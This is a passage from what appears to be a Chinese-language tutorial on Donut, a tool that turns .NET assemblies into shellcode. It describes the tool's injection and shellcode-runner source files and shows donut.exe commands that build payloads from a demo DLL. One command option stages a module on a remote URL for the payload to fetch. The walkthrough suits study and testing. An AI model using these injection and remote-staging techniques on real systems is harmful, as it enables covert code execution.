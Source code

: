 存储32位的机器码(包括dll和解密密钥)

#### 5.https://github.com/TheWover/donut/blob/master/payload/inject.c

使用RtlCreateUserThread向指定进程注入shellcode

可用作测试向指定进程注入shellcode的功能

#### 6.https://github.com/TheWover/donut/blob/master/payload/runsc.c

C/S架构，两个功能，可以发送和接收shellcode并执行

用于测试payload.bin的功能

#### 7.https://github.com/TheWover/donut/blob/master/encrypt.c

对称加密的实现

#### 8.https://github.com/TheWover/donut/blob/master/hash.c

API Hashing，这里使用了Maru hash

#### 9.https://github.com/TheWover/donut/blob/master/donut.c

主程序，用于将.NET程序集转换成shellcode

## 0x04 实际测试
---

### 1、选择测试dll

这里使用子项目DemoCreateProcess

编译后生成文件ClassLibrary.dll

### 2、使用Donut生成shellcode

64位：

```
donut.exe -a 2 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

32位：

```
donut.exe -a 1 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

命令执行后生成文件payload.bin

如果加了-u指定URL，会再生成一个随机名称的Module文件，实例如下：

```
donut.exe -a 2 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe -u http://192.168.1.1
```
